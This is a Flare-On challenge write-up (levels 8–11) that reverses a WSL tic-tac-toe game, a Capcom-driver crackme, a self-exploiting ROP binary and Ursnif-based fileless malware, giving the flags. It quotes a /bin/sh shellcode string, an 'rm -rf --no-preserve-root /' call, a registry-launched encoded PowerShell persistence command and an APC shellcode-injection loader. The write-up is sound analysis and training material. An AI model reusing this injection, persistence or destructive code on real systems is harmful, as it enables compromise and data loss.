## 8 - Aardvark

```
Expect difficulty running this one. I suggest investigating why each error is occuring. Or not, whatever. You do you.
```

Aardvark was a surprisingly simple challenge, coming from RE Crowd. The hard part can be to actually make it run. To run `ttt2.exe`, you need to enable Windows Subsystem for Linux (WSL), set the default WSL version to 1, and install a Linux distro, e.g. Ubuntu, using the Windows Store.

When this is complete, the EXE can be run directly, and shows a basic Tic-Tac-Toe game




Inside the binary, there is a non-obfuscated ELF file. What's happening, is that two parts of the game start up, where one of them runs on the Windows host, and the other runs the ELF on Linux through WSL. These two processes are communicating moves with each other, and share an understanding of the board state.

Looking closely at the code, the logic of the "AI" is to place crosses using a hardcoded list of prioritized locations - unless circle is about to win. It doesn't really care if itself is winning or not, but it's adamant about making circle **not** win. It quickly becomes clear that it's impossible to legitimately win this because of the move orders. 

However, since the goal here is probably just to win, there's a lot of way to go about completing that. The AI can be reprogrammed, the board can be set to initialize in an order where circle is about to win, etc.

I went for the second option, where I just modified the binaries to have a different initial board state, so that I was close to winning when the game started. This produced a weird-looking flag, which I thought was corrupted, so I went back and tried multiple other strategies. But no matter what I tried, I got the same flag over and over. Then I decided to try to submit it, and it was actually correct. D'oh!

`c1ArF/P2CjiDXQIZ@flare-on.com`

## 9 - Crackinstaller

```
What kind of crackme doesn't even ask for the password? We need to work on our COMmunication skills.
```

Here's a really convoluted challenge, I thought. Turns out it's just a warm-up compared to the next ones.

Crackinstaller features `crackinstaller.exe` and nothing else. But deep inside, there is actually 3 embedded binaries, and when this binary is started, a lot of moving parts are involved. The gist of the first two parts, is that it is extracting `cfs.sys`, (a signed, known driver featuring a very exploitable overflow, also known as `capcom.sys`), and code is executed through this driver. A service called `cfs` is created, to function as a sort of "Code Execution in Ring 0 as a Service", and another embedded DLL is loaded through this interface. It's more or less the same exploit code as [this repo](https://github.com/Professor-plum/Reflective-Driver-Loader), which very well could be what was used here.

The EXE also features obfuscation techniques like string encryption, including an encrypted DLL at 0x140019A80. The XOR keys used to encrypt are located at 0x140016820 for string encryption, and 0x140016828 for the DLL.

In total, we get:

- `cfs.sys`, which is the signed Capcom driver
- `credHelper.dll`, which is dropped in `C:\Users\User\AppData\Local\Microsoft\Credentials`
- `mystery.dll`, an unnamed DLL that is decrypted and loaded in-memory.

Observing changes to the system while the binary runs, I see that it is creating some registry entries related to COM, and two string entries called `Password` and `Flag`. Because some of the code is run inside the kernel, the use of Kernel debugging is probably the easiest way to go debug this.

A bit more static and dynamic reversing later, and the flow of the binary starts to become clearer.

- The innermost mystery DLL is mostly just handling decryption
- credHelper is setting up a registry notification listener, with a callback function that is present in `mystery.dll`.

- The callback function filters for `RegNtPreCreateKeyEx` 
- If the registry change matches some criteria, run more code:
  - Check the password value, and if it is correct, use it to as a key to decrypt the flag.
  - If the length of the flag seems okay-ish, set the flag in the registry.
  - Exit and cleanup, even if password was wrong


What I did, was to set a breakpoint in WinDbg at `IoCreateDevice`, then inspect where the address of the loaded module would be present. From there, I would set a breakpoint at `CmRegisterCallbackEx` and inspect the various parameters to figure out where the callback function was at. At first, I was trying to find the data that was hashed and used to decrypt the password, because I wasn't able to figure out how it was deobfuscated prior to hashing.

The password check is hashing the string "BBACABA" with SHA256, and use this as a ChaCha20 key to decrypt the embedded password to compare with. It is equivalent to this operation

```python
>>> from Crypto.Cipher import ChaCha20
>>> from hashlib import sha256
>>> ChaCha20.new(key=sha256(b"BBACABA").digest(), nonce=b"\x00"*8).decrypt(bytes.fromhex("1031f08b894e73b53047ad6e18a95e"))
b'H@n $h0t FiRst!'
```


Now, since this challenge is supposed to be some kind of serial checker, I thought that what I needed to do was to start the executable, enter the password into the correct registry key, then wait for the `Flag` entry to be updated. Unfortunately, this mechanism was broken for me, so either I did something wrong, or I've misunderstood it completely. The callback was running its extra code every single time, no matter what actually changed in the registry, which meant that the code nearly *instantly* cleaned itself up and stopped. When I set a breakpoint in the password comparison function, I wasn't able to switch to another application to enter the password before it was hit. To solve the challenge, I instead had to reverse the final flag decryption step too.

Luckily, this part was just RC4. The encrypted flag is at 0x18001A9F0 inside credHelper.dll, and the password is used verbatim.

```python
>>> from Crypto.Cipher import ARC4
>>> flag = bytes.fromhex("1656BC869EE1D10265C1699F100AACC1F6E9FDB4CD224A359C1273BD2B1054B943D2139A8465ADB0BF5A8110")
>>> ARC4.new(b"H@n $h0t FiRst!").decrypt(flag)
b'S0_m@ny_cl@sse$_in_th3_Reg1stry@flare-on.com'
```


## 10 - Break

```
As a reward for making it this far in Flare-On, we've decided to give you a break. Welcome to the land of sunshine and rainbows!
```

This challenge was really something. It had the highest meme to code ratio of any RE challenge I've ever seen. A conservative estimate is that more than 95% of the file size here is trolls and memes.

### First steps

From the get-go, this looks really simple

```C
void __cdecl __noreturn main()
{
  char buf[264]; // [esp+0h] [ebp-108h]

  puts("welcome to the land of sunshine and rainbows!");
  puts("as a reward for getting this far in FLARE-ON, we've decided to make this one soooper easy");
  putchar('\n');
  printf("please enter a password friend :) ");
  buf[read(0, buf, 0xFFu) - 1] = 0;
  if ( flagcheck(buf) )
    printf("hooray! the flag is: %s\n", buf);
  else
    printf("sorry, but '%s' is not correct\n", buf);
  exit(0);
}

_BOOL4 __cdecl flagcheck(char *flag)
{
  return strcmp(flag, "sunsh1n3_4nd_r41nb0ws@flare-on.com") == 0;
}
```

But this is, of course, not what's _actually_ happening. During the init procedure, the init functions are overwritten with some different functions, where one is doing

```C
int goodbye_controlflow()
{
  int v0; // eax
  int pid; // [esp+Ch] [ebp-Ch]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  pid = getpid();
  parent_pid = pid;
  if ( !fork() )
  {
    child_loop(pid);
    exit(0);
  }
  prctl(0x59616D61, pid, 0, 0, 0);              // PR_SET_PTRACER
  nanosleep(requested_time, 0);
  v0 = nice(170);
  return printf("%s", -v0);
}
```

The process forks itself and goes to sleep for a short time, while the child process is wrecking havoc. `ptrace()` is **heavily** used in this binary, but not for the typical anti-debug trick. No, it's used to fetch the registers of the other threads and overwrite them on-the-fly, to exchange data, to stop syscalls with the esoteric `PTRACE_SYSEMU`, and more. The different threads run their own state machines, which look something like this, just way more entries.

```C
if ( next_instruction == 0xE8135594 )
{
    ptrace(5, pid, encrypted_offset, addr);
}
else if ( next_instruction > 0xE8135594 )
{
    if ( next_instruction == 0x2499954E )
    {
        if ( encrypted_offset == 0x1337 )
        {
            buf = get_weird_string_at(addr);
            set_data_in_process(pid, scratch_area, buf, enc_offset);
            v22 = scratch_area;
        }
        else
        {
            v22 = -1;
        }
        ptrace(13, pid, 0, &encrypted_offset);
    }
```

In addition to all of this, the binary also intercept nearly all signals and just restarts killed threads. There's also a thread scanning for injected breakpoints. While this is fairly annoying, it is also required to avoid some...unfortunate system calls we'll see later.

### RE Memes

The next parts are almost too numerous to mention, but they were quite fun to reverse.

- The binary features 3 sets of AES encryption/decryption functions, including S-boxes. One of them is a weird round-reduced, length-reduced variant that we'll later see that decrypts the first part of the flag.

- There are multiple encrypted strings in the binary. Some are just in hex format, but written as `A-P` instead of `0-9..A-F`. Another is a struct with a custom XOR-key embedded.

  - ```C
     uint8_t  xorkey[4]
     uint32_t length
     uint8_t  encdata[length]
    ```

- There are also some AES-encrypted strings. Most of them are never used, and are just there to waste time.

- The entire bee movie script is embedded (twice!)

- A huge PNG file with a slight hint to part 3 is included too.

A representative selection:



```
"Power on self test failed. This challenge will not work correctly."
"@flare-on.com"
"Thank you for playing FLARE-ON!"
'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80' (/bin/sh i386 shellcode)
"Look! Some key material is coming up!"
"\xda\x96\x8f\x3d" xored with itself, so zeroed
"Wow. That was some good key material."
"Please fill out the review sheet for this challenge: https://twitter.com/gf_256/status/1209012768147460096/photo/1"
"By reading this string I have successfully stolen around 2 seconds of your life. How does that make you feel?"
"Wasting your time1"
"Wasting your time2"
"Wasting your time3"
"Wasting your time4"
"Wasting your time5"
"Wasting your time6"
...
"Wasting your time25"
< big chungus ascii art >
"NaN"
"Error: unable to debug child"
< The entire bee movie script>
```

Apart from the troll flags, the most notable string is `"This string is used to calculate the XXTEA key to decrypt the fourth part of the flag."` which I kept in the back of my head for the remainder of the challenge :clown_face:.


### Following the flow

Tools like `strace`, `ltrace` and `gdb` fail pretty hard at this challenge, for various reasons. It's possible to kill one of the threads responsible for scanning for breakpoints, but I was still overwhelmed with signals. Instead, I opted to use LD_PRELOAD hooks to inspect what was happening.

```C
int memcmp(const void *s1, const void *s2, size_t n){
    printf("Hooked: memcmp(%s, %s, %d)\n", (char*)s1, (char*)s2, n);
    int (*original_memcmp)(const void *cmp1, const void *cmp2, size_t n);
    original_memcmp = dlsym(RTLD_NEXT, "memcmp");
    return original_memcmp(s1, s2, n);
}
```

Just hooking `memcmp()` and various string functions quickly nets the first 16 characters of the flag.

```bash
root@a1a79901f25d:/ctf/work# LD_PRELOAD=./preload.so ./break
welcome to the land of sunshine and rainbows!
as a reward for getting this far in FLARE-ON, we've decided to make this one soooper easy

please enter a password friend :) AAAABBBBCCC
(...)
Hooked: memcmp(AAAABBBBCCC, w3lc0mE_t0_Th3_l, 16)
```

The next time we start the binary, entering the correct first 16 characters of the flag makes the binary run for a very long time. Multiple minutes in fact. By correlating the hooked function order and inputs (especially `nice()` which is called with unique numbers) with calls in the code, it looks like we're inside the function at 0x08048DCB.

```C
_BOOL4 __cdecl level_1(char *s_inputstring)
{
  _BOOL4 result; // eax
  char *state; // [esp+4h] [ebp-D4h]
  char *argv[5]; // [esp+B4h] [ebp-24h]
  aes_state *key; // [esp+C8h] [ebp-10h]
  size_t length; // [esp+CCh] [ebp-Ch]

  length = strlen(s_inputstring);
  argv[0] = "rm";
  argv[1] = "-rf";
  argv[2] = "--no-preserve-root";
  argv[3] = "/";
  argv[4] = 0;
  execve(s_inputstring, argv, 0);
  --length;
  key = -nice(165);
  AES_KeyExpansion_wrong(&state, key);
  AES_Cipher(&state, aes_chunk_1);
  AES_Cipher(&state, aes_chunk_2);
  AES_Cipher(&state, aes_chunk_3);
  AES_Cipher(&state, aes_chunk_4);
  if ( !memcmp(s_inputstring, aes_chunk_1, 0x10u) )
  {
    memset(aes_chunk_1, 0, 0x10u);
    result = level_2(s_inputstring + 16);
  }
  else
  {
    memset(aes_chunk_1, 0, 0x10u);
    result = 0;
  }
  return result;
}
```

Note that the `execve()` is not run, thanks to the other threads intercepting it. If you killed some of those threads to debug, you might be unlucky though...

The `memcmp()` call corresponds to the one we saw in the hook, where it compares 0x10 bytes of the input string with a decrypted flag part. If this is correct, it sends the remaining input to `level_2()`. 

```C
_BOOL4 __cdecl level_2(char *input_string_o16)
{
  int v1; // eax
  size_t s_len; // eax
  __int64 lowbits; // [esp-4h] [ebp-FACh]
  const char *v5; // [esp+4h] [ebp-FA4h]
  __int32 crc_signed; // [esp+Ch] [ebp-F9Ch]
  int maxlen; // [esp+F8Ch] [ebp-1Ch]
  __int64 crc; // [esp+F90h] [ebp-18h]
  char *s_This_string; // [esp+F98h] [ebp-10h]
  int i; // [esp+F9Ch] [ebp-Ch]

  v1 = nice(164);
  s_This_string = -v1;
  s_len = strlen(-v1);
  crc = crc64(0LL, s_This_string, s_len);
  maxlen = 40000;
  memcpy(file, input_string_o16, 32u);
  for ( i = 0; i < maxlen; i += 8 )
  {
    LODWORD(lowbits) = &crc_signed;
    decode_file(&file[i], crc, lowbits, v5);
  }
  return truncate(file, 32) == 32;
}
```

level_2() explains why the binary now takes so long to run. It is looping 40000/8 times, decrypting a huge chunk of DWORDs stored at 0x0804C640. I didn't quite understand the sizes of the variables in this function, but I'm pretty sure that it is using CRC64 of the string `This string has no purpose and is merely here to waste your time.` as the starting point. Finally, it returns `truncate(file, 32) == 32`, which normally cannot be a return code from `truncate()`. Also, `input[16:48]` is copied into the `file` buffer, before this decryption happens.

The `decode_file()` function is a horror show, abusing chmod, pivot_root, uname, ptrace magic and CRC64 to implement a 16-round Feistel cipher equivalent to

```python
cs = [(0x4b695809, 0x0f, 0x674a1dea),
      (0xe35b9b24, 0x11, 0xad92774c),
      (0x71adcd92, 0x11, 0x56c93ba6),
      (0x38d6e6c9, 0x11, 0x2b649dd3),
      (0x5a844444, 0x0c, 0x8b853750),
      (0x2d422222, 0x0c, 0x45c29ba8),
      (0x16a11111, 0x0c, 0x22e14dd4),
      (0xcdbfbfa8, 0x15, 0x8f47df53),
      (0xe6dfdfd4, 0x15, 0x47a3efa9),
      (0xf36fefea, 0x15, 0x23d1f7d4),
      (0x79b7f7f5, 0x15, 0x11e8fbea),
      (0xfa34ccda, 0x0f, 0x96c3044c),
      (0x7d1a666d, 0x0f, 0x4b618226),
      (0xf8620416, 0x0f, 0xbb87b8aa),
      (0x7c31020b, 0x0f, 0x5dc3dc55),
      (0x78f7b625, 0x12, 0xb0d69793)
    ]

def rotr(num, bits, n=1):
    for _ in range(n):
        num &= (2**bits-1)
        bit = num & 1
        num >>= 1
        if(bit):
            num |= (1 << (bits-1))
    return num

def chmod(b, i):
    return rotr(((b+cs[i][0])&0xFFFFFFFF), 32, cs[i][1]) ^ cs[i][2]

def encrypt(a, b):
    data_first = a
    data_second = b

    for i in range(16):
        L = data_second
        R = data_first ^ chmod(data_second, i)
        data_first = data_second
        data_second = R
    return data_second, data_first

def decrypt(a, b):
    data_first = a
    data_second = b

    for i in range(16)[::-1]:
        L = data_second
        R = data_first ^ chmod(data_second, i)
        data_first = data_second
        data_second = R
    return data_second, data_first
```

LD_PRELOAD hooking the `truncate()` call, shows that the decrypted data has some strange bytes in the start, followed by the Bee Movie script (again!), but there's some kind of corruption inside the text, making `printf()` stop early.



This looks very much like an address (0x08053b70).

A bit further down, the text turns into binary data, including some strings like `%.08x`, `/dev/urandom` and some hash-like strings. Then the Bee Movie script continues




Turns out, this address at the start is pointing directly at the first byte of this binary data, and the data is actually code. It actually *is* exploiting itself. Copying 40000 bytes into a 16000 byte long buffer effectively utilizes return-oriented programming (ROP)







For the next part, I decrypted the data manually, then overwrote the original binary with the modified data. This was purely to make it easier to reverse, while keeping the other addresses and references intact. Our entry point is `entry() @ 0x08053b70`

```C
void __cdecl __noreturn entry(int a1, int a2, int a3)
{
  level_3(a1, a2, a3);
}
```

The entirety of this code blob is using direct syscalls instead of their LIBC wrappers, which avoids inspection by hooking. My IDA sort of broke down trying to understand the types, but the code is something like

```C
// Same params as trucate?
void __cdecl __noreturn level_3(int a1, int input_buffer, int n)
{
  int fd; // esi
  char data; // [esp+0h] [ebp-A4Ch]
  int return_value; // [esp+18h] [ebp-A34h]
  int h_3[32]; // [esp+44h] [ebp-A08h]
  int h_4[32]; // [esp+C4h] [ebp-988h]
  int h_1[32]; // [esp+144h] [ebp-908h]
  int h_2[32]; // [esp+1C4h] [ebp-888h]
  int a4[32]; // [esp+244h] [ebp-808h]
  int h_3_2[32]; // [esp+2C4h] [ebp-788h]
  bn a2; // [esp+344h] [ebp-708h]
  bn input_flag; // [esp+3C4h] [ebp-688h]
  bn calc_h3; // [esp+444h] [ebp-608h]
  bn calc_h4; // [esp+4C4h] [ebp-588h]
  bn randomnum; // [esp+544h] [ebp-508h]
  int v17[32]; // [esp+5C4h] [ebp-488h]
  char zeroed[1024]; // [esp+644h] [ebp-408h]
  void (__cdecl __noreturn *p_entryfunc)(int, int, int); // [esp+A44h] [ebp-8h]
  pid_t pid; // [esp+A48h] [ebp-4h]

  p_entryfunc = entry;
  pid = parent_pid;
  do_sys_ptrace(0, parent_pid, 12, &data);      // GETREGS
  if ( n != 32 )
  {
    return_value = -1;
    do_sys_ptrace(0, pid, 13, &data);
    do_sys_ptrace(0, pid, 17, 0);
    do_sys_exit(0);
  }
  bignum_init(&input_flag);
  bignum_init(&randomnum);
  bignum_init(&a2);
  hex2long_arr(h_1, &word_8055BE2[p_entryfunc - 134564156], 64);// d1cc3447d5a9e1e6adae92faaea8770db1fab16b1568ea13c3715f2aeba9d84f
  hex2long_arr(h_2, &byte_8055B60[p_entryfunc - 134564156], 64);// c10357c7a53fa2f1ef4a5bf03a2d156039e7a57143000c8d8f45985aea41dd31
  hex2long_arr(h_3, &byte_8055B1F[p_entryfunc - 134564156], 64);// 480022d87d1823880d9e4ef56090b54001d343720dd77cbc5bc5692be948236c
  hex2long_arr(h_3_2, &byte_8055B1F[p_entryfunc - 134564156], 64);// 480022d87d1823880d9e4ef56090b54001d343720dd77cbc5bc5692be948236c
  hex2long_arr(h_4, &byte_8055BA1[p_entryfunc - 134564156], 64);// d036c5d4e7eda23afceffbad4e087a48762840ebb18e3d51e4146f48c04697eb
  qmemcpy(&input_flag, (input_buffer + 48), 24u);// 24 next chars of flag
  fd = do_sys_open(0, 0, &byte_8055B12[-134564156 + p_entryfunc]);// "/dev/urandom"
  do_sys_read(32u, &randomnum, fd);
  bignum_divmod(&randomnum, h_1, v17, a4);      // divmod(a,b,c,d) sets c=a//b and d=a%b
  do_sys_close(fd);
  bignum_assign(&randomnum, a4);
  mystery(h_2, &randomnum, h_1, &a2);
  bignum_assign(&randomnum, a4);
  mystery(h_3_2, &randomnum, h_1, &calc_h3);
  bignum_mul(&input_flag, &a2, &randomnum);
  bignum_divmod(&randomnum, h_1, v17, &calc_h4);
  memset(zeroed, 0, sizeof(zeroed));
  bignum_to_string(&calc_h3, zeroed, 0x400);
  memset(zeroed, 0, sizeof(zeroed));
  bignum_to_string(&calc_h4, zeroed, 0x400);
  if ( bignum_cmp(h_3, &calc_h3) || bignum_cmp(h_4, &calc_h4) )
  {
    return_value = -1;
    do_sys_ptrace(0, pid, 13, &data);
    do_sys_ptrace(0, pid, 17, 0);
    do_sys_exit(0);
  }
  *(input_buffer + 72) = 0;
  set_data_in_process2(pid, dword_81A57C0, input_buffer, &p_entryfunc, 73);
  return_value = 32;
  do_sys_ptrace(0, pid, 13, &data);
  do_sys_ptrace(0, pid, 17, 0);
  do_sys_exit(0);
}
```

The start of the function does some magic, but basically compares the number of matching bytes in the start of the decrypted file - against the 32 bytes of obfuscated flag at 0x081A5100. Remembering what happens right before decryption, the first 32 bytes were replaced with 32 bytes of the input. This input has now been decrypted, along with the Bee Movie/code mix. In other words, it compares `decrypt(input[16:48])` against some bytes. The task is then to create a corresponding `encrypt()` (or `decrypt()`, depending on what you call the decoding operation) function that runs in reverse, to figure out what kind of input that decodes into the expected bytes. I do this using the Feistel cipher from before, which nets us 32 more characters of the flag.

```python
from Crypto.Util.number import long_to_bytes as l2b, bytes_to_long as b2l
x, y = decrypt(0x260A064, 0x7D878AEA)
print((l2b(x)[::-1]+ l2b(y)[::-1]).decode(), end="")
x, y = decrypt(0x0E47CE96C, 0x00C2D3F82)
print((l2b(x)[::-1]+ l2b(y)[::-1]).decode(), end="")
x, y = decrypt(0x0EBB5B78C, 0x0424F35CF)
print((l2b(x)[::-1]+ l2b(y)[::-1]).decode(), end="")
x, y = decrypt(0x0492BAD4F, 0x0E07C2820)
print((l2b(x)[::-1]+ l2b(y)[::-1]).decode())
# 4nD_0f_De4th_4nd_d3strUct1oN_4nd
```

If the number of correct bytes is not 32, this part exits early using sys_exit, which is handled by the other threads as a failure.

The remaining parts in `level_3()` took some time to understand, but after looking closely at the functions, they seemingly did things like addition and multiplication with carry, on arrays of numbers. After searching a bit online, I found https://github.com/kokke/tiny-bignum-c which I'm fairly sure is exactly what was used here.

So what's happening, is that the big hash-like strings we saw earlier, are parsed as numbers. The bytes of `flag[48:48+24]` are also read as if they were  numbers, and included in the other calculations. The function tagged `mystery()` was not in the original bignum library, but the flag is not sent through it, so it's not important to understand what kind of conceptual operation it is doing, as long as I can look at what comes out of it.

Equivalent in Python is

```python
a2 = 0
h_1 = 0xd1cc3447d5a9e1e6adae92faaea8770db1fab16b1568ea13c3715f2aeba9d84f
h_2 = 0xc10357c7a53fa2f1ef4a5bf03a2d156039e7a57143000c8d8f45985aea41dd31
h_3 = 0x480022d87d1823880d9e4ef56090b54001d343720dd77cbc5bc5692be948236c
h_3_2 = 0x480022d87d1823880d9e4ef56090b54001d343720dd77cbc5bc5692be948236c
h_4 = 0xd036c5d4e7eda23afceffbad4e087a48762840ebb18e3d51e4146f48c04697eb
calc_h3 = 0

input_flag = 0xAABBCCDDEEFFAABBCCDDEEFFAABBCCDDEEFFAABBCCDDEECC # flag[48:72]
randomnum = 1 # 32 bytes read from /dev/urandom

v17, a4 = divmod(randomnum, h_1)

randomnum = a4
(h_2, randomnum, h_1, a2) = mystery(h_2, randomnum, h_1, a2)

randomnum = a4
(h_3_2, randomnum, h_1, calc_h3) = mystery(h_3_2, randomnum, h_1, calc_h3)

randomnum = input_flag * a2
v17, calc_h4 = divmod(randomnum, h_1)

if (h3 != h3_calc) or (h4 != h4_calc):
    return_value = 1
else:
    return_value = 32
send_data_to_thread(return_value)
exit()
```


And the goal is to have `h_3 == calc_h3` and `h_4 == calc_h4` in the end. The random number is supposedly read from `/dev/urandom`, but it turns out that this is intercepted and just becomes `1`, which actually makes it so that `h_3 == calc_h3` always. To make the flag input pass the check, I brush off my modular math skills and set `input_flag = (h_4 * invert(a2, h_1)) % h_1` right before `randomnum` is multiplied with `a2`.  `invert()` being some function that finds the modular inverse of a number, e.g. the Extended Euclidean Algorithm (egcd). This cancels out the multiplication with `a2` (mod `h_1`), and the result becomes `h_4` as required. The calculations show that input_flag has to be `0x6d6f632e6e6f2d6572616c6640733369707075705f306e5f`, or `_n0_puppi3s@flare-on.com` when interpreted as ASCII (reversed), for this check to pass.

Adding all the pieces together, I get `w3lc0mE_t0_Th3_l4nD_0f_De4th_4nd_d3strUct1oN_4nd_n0_puppi3s@flare-on.com` and I feel like a dummy for buying into the XXTEA story from earlier.

When both the `bignum_cmp()` calls succeed, the binary does some magic to overwrite the return value with 32 and exits. This is modifies the `truncate()` call to return 32, and thus the flag is deemed correct.


## 11 - Rabbithole

```
One of our endpoints was infected with a very dangerous, yet unknown malware
strain that operates in a fileless manner. The malware is - without doubt - an
APT that is the ingenious work of the Cyber Army of the Republic of Kazohinia.

One of our experts said that it looks like they took an existing banking
malware family, and modified it in a way that it can be used to collect and
exfiltrate files from the hard drive.

The malware started destroying the disk, but our forensic investigators were
able to salvage ones of the files. Your task is to find out as much as you can
about the behavior of this malware, and try to find out what was the data that
it tried to steal before it started wiping all evidence from the computer.

Good luck!
```

A long description for a long challenge. This one really tested my patience, and near the end there were just too many things going on. It became extremely tedious, and actually made me feel a bit sorry for those that do this professionally.


### Part 1 - The early years, and impersonating David

The only thing we're handed out in this challenge, is an `NTUSER.DAT` file, which represents the HKU registry hive for a single user on some system. Opening this up with a tool like `AccessData Registry viewer` shows a lot of normal keys, but some of them look a bit out of place.


WTF is Timerpro? And why does it have Powershell code inside?

Looking further, there is evidence that the command

``` 
forfiles.exe /p C:\WINDOWS\system32 /s /c "cmd /c @file -ec aQBlAHgAIAAoAGcAcAAgACcASABLAEMAVQA6AFwAUwBPAEYAVABXAEEAUgBFAFwAVABpAG0AZQByAHAAcgBvACcAKQAuAEQA" /m p*ll.*e
```

has been set up to run. This essentially looks for files matching `p*ll.*e` in the system32 directory, which will match `powershell.exe`, then runs the encoded command `iex (gp 'HKCU:\\SOFTWARE\\Timerpro').D` which is shorthand for `Invoke-Expression (Get-ItemProperty 'HKCU:\\SOFTWARE\\Timerpro').D`.

The code in `Timerpro.D` is quite long, but the start of it decodes to 

```powershell
[byte[]]$rpl = <very long DLL data>
(...)

$cqltd="
[DllImport(`"kernel32`")]`npublic static extern IntPtr GetCurrentThreadId();`n
[DllImport(`"kernel32`")]`npublic static extern IntPtr OpenThread(uint nopeyllax,uint itqxlvpc,IntPtr weo);`n
[DllImport(`"kernel32`")]`npublic static extern uint QueueUserAPC(IntPtr lxqi,IntPtr qlr,IntPtr tgomwjla);`n
[DllImport(`"kernel32`")]`npublic static extern void SleepEx(uint wnhtiygvc,uint igyv);";

$tselcfxhwo=Add-Type -memberDefinition $cqltd -Name 'alw' -namespace eluedve -passthru;

$dryjmnpqj="ffcx";
$nayw="
[DllImport(`"kernel32`")]`npublic static extern IntPtr GetCurrentProcess();`n
[DllImport(`"kernel32`")]`npublic static extern IntPtr VirtualAllocEx(IntPtr wasmhqfy,IntPtr htdgqhgpwai,uint uxn,uint mepgcpdbpc,uint xdjp);";

$ywqphsrw=Add-Type -memberDefinition $nayw -Name 'pqnvohlggf' -namespace rmb -passthru;
(...)

$jky="epnc";

$kwhk=$tselcfxhwo::OpenThread(16,0,$tselcfxhwo::GetCurrentThreadId());
if($yhibbqw=$ywqphsrw::VirtualAllocEx($ywqphsrw::GetCurrentProcess(),0,$rpl.Length,12288,64))
{
 [System.Runtime.InteropServices.Marshal]::Copy($rpl,0,$yhibbqw,$rpl.length);
 if($tselcfxhwo::QueueUserAPC($yhibbqw,$kwhk,$yhibbqw))
 {
  $tselcfxhwo::SleepEx(5,3);
 }
}
```

This is a typical injection technique, which boils down to injecting code through `QueueUserAPC()`, then setting the thread to an alertable state, which triggers the APC and runs the shellcode. It also gets access to a variety of API calls by compiling some C# DLL files on the fly.

Now for the shellcode itself. It comes without any sort of MZ/PE header or imports, so the first thing it does is to traverse the Thread Environment Block, looking for `Kernelbase.dll` like this `v5 = *(**(*(*(__readgsqword(0x30u) + 0x60) + 0x18i64) + 0x10i64) + 0x30i64) & 0xFFFFFFFFFFFFF000ui64;`. Then it starts rebuilding its import table from scratch, and decrypting its section header using some hard-coded XOR keys. This loading technique is used repeatedly throughout this challenge.

After rebuilding itself, the binary now starts to fetch some system information. It starts by fetching the current user SID, hashes it, and initializes an xorshift64star PRNG with the result. It also looks for some section inside itself, starting with `WD`, and treats it as some kind of encrypted data entry table. This is basically exactly like Ursnif, which is most likely the banking malware that was hinted to in the introduction. Knowing that it's built on Ursnif, we can look up some older leaked source code dumps, and read a bit more about it. Noteworthy things, is that Ursnif use the Serpent cipher, RSA and XOR in some CBC mode as encryption algorithms, and AP32 for (de)compression. The `WD` header is documented well [here](https://www.fireeye.com/blog/threat-research/2020/01/saigon-mysterious-ursnif-fork.html), and with that description I see that the binary contains two entries: `CRC_PUBLIC_KEY` and `CRC_WORDLIST`.

Decompressing the `CRC_WORDLIST` entry reveals an interesting word salad

```
old new current version process thread id identity task disk keyboard monitor class archive drive message link template logic protocol console magic system software word byte timer window scale info char calc map print list section name lib access code guid build warning save load region column row language date day false true screen net info web server client search storage icon desktop mode project media spell work security explorer cache theme solution 
```

Piecing it all together, the PRNG (initialized with some hashed SID), is used to fetch word(s) from this wordlist and build new words with. These words make up the registry keys that it tries to read/write to. When observing the process with `Process Monitor`, I saw it try to read from some non-existing registry entry like `Explmagic\Desktopco` (which has word combinations from the list). This is because my SID is different, and this makes it generate different names.

The registry dump shows only a single user, and that is Kevin, with SID `{S-1-5-21-3823548243-3100178540-2044283163-1006}`. To make the malware read from `TimerPro`, I need to change my own SID to this. That's easier said than done, though. I ended up using detours to hook the various API calls that queried for the SID, replacing it with Kevin's. This naturally led to the malware trying to read the user hive of that user too, using a SID that didn't exist. This was solved by hooking registry reading functions too, and rewriting the original SID back into those requests. This was a total pain, because my SID was 2 bytes shorter than Kevin's SID, so it wasn't a simple overwrite. Lengths had to be changed, bytes had to be moved, and all of this using confusing widechars.


